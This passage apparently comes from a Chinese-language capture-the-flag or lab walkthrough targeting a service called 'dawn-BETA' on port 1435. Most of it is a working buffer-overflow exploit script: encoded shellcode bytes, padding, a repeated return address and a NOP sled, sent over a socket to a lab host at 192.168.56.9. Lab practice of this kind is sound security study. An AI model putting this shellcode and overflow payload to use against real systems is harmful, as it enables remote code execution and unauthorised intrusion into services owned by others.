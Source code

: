     ![image.png](image%20119.png)
    
    想起来还开启着`1435`端口，可能就是`dawn-BETA`
    
4. 把文件传到测试机再试上边的操作（累），得到以下`payload`
    
    ```c
    import socket
    
    buf =  b""
    buf += b"\xbd\xd9\x9c\x86\x5c\xdb\xd7\xd9\x74\x24\xf4\x5e"
    buf += b"\x31\xc9\xb1\x12\x83\xc6\x04\x31\x6e\x0e\x03\xb7"
    buf += b"\x92\x64\xa9\x76\x70\x9f\xb1\x2b\xc5\x33\x5c\xc9"
    buf += b"\x40\x52\x10\xab\x9f\x15\xc2\x6a\x90\x29\x28\x0c"
    buf += b"\x99\x2c\x4b\x64\xda\x67\x93\x7e\xb2\x75\xe4\x7a"
    buf += b"\x90\xf3\x05\x32\x72\x54\x97\x61\xc8\x57\x9e\x64"
    buf += b"\xe3\xd8\xf2\x0e\x92\xf7\x81\xa6\x02\x27\x49\x54"
    buf += b"\xba\xbe\x76\xca\x6f\x48\x99\x5a\x84\x87\xda"                           
                                                        
    a = b'A' * 13 + b'\x77\x17\x58\x34' * 4 + b'\x90' * 32 + buf                                               
    s = socket.socket()                                 
    s.connect(('192.168.56.9',1435))        
    s.send(a)
    s.close()
    ```
    